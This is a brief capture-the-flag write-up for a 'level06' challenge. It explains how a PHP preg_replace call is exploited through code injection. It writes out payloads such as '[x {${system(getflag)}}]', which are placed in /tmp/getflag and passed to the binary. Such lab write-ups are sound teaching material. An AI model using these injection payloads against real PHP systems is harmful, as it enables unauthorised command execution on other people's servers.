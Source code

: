 ## This level contains binary file and a PHP file. The binary actually executs PHP instructions which is in level06.php
## PHP code uses preg_replace function which is vulnerable to command injection
## In code, preg_replace try to match expression associated to this pattern : /(\[x (.*)\])/
## We create a file getflag in tmp directory which contains : [x {${system(getflag)}}]
## and we will run binary level06 passing this /tmp/getflag file in argument

### vim /tmp/getflag && ./level06 /tmp/getflag

### [x {${system(getflag)}}]
or [x ${`getflag`}]

###:wq
